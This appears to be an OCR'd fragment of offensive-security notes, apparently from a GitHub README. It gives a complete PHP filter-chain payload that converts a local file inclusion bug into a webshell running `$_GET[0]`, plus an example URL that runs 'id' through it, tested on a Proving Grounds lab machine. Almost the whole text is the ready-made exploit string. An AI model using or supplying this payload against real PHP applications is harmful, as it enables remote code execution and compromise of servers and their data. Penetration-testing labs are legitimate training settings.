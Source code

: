 - Example of `<?=`$_GET[0]`;;?>` as generated by the author

        php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.IEC_P271.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.NAPLPS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.857.SHIFTJISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.866.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L3.T.61|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.SJIS.GBK|convert.iconv.L10.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UJIS|convert.iconv.852.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.CP1256.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.NAPLPS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.851.UTF8|convert.iconv.L7.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.CP1133.IBM932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.851.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.1046.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.MAC.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.SHIFTJISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.MAC.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.ISO6937.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.SJIS.GBK|convert.iconv.L10.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.857.SHIFTJISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp

- To execute webshell e.g

      http://127.0.0.1/?0=id&file=[filter generated above]

- Sweet RCE[Test on Inclusiveness PG PLAY]
- Script usage for the php filter
